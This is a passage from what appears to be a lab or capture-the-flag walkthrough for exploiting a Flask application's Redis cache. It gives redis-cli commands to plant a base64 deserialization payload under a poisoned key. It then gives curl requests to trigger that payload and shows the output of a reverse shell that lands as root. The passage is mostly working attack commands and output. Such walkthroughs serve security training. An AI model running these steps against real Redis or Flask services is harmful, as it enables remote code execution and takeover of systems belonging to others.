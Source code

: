 In your **original terminal**, connect to Redis and inject the malicious payload:

```bash
# Terminal 2: Connect to Redis
redis-cli -h localhost -p 6379

# Authenticate
AUTH your_redis_password_here

# Inject malicious payload
# Replace PAYLOAD_HERE with your base64 payload from step 12 or 13
SET flask_cache_exploit "PASTE_YOUR_BASE64_PAYLOAD_HERE"

# Verify it was set
EXISTS flask_cache_exploit

# Check expiration (should return -1 for no expiration)
TTL flask_cache_exploit
```

### 16. Trigger the Exploit

Now trigger the cache deserialization by accessing a cached endpoint.

**Method 1: If you know a cached endpoint from app.py analysis:**

```bash
# Terminal 3: Trigger deserialization
curl http://localhost:8080/results/exploit

# Or whichever endpoint uses caching
curl http://localhost:8080/cached_endpoint/exploit
```

**Method 2: Create an endpoint that retrieves our poisoned key:**

This depends on how the app is structured. Look at `app.py` to find which endpoint would trigger cache retrieval.

**Method 3: Use GET request with session cookie:**

```bash
# If the app caches session data
curl -b "session=exploit" http://localhost:8080/results

# Or try the profile endpoint
curl http://localhost:8080/profile/exploit
```

### 17. Receive Reverse Shell

**Check Terminal 1** (your netcat listener). If exploitation succeeded, you should see:

```
Connection from 172.17.0.X:XXXXX
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@container_id:/app#
```
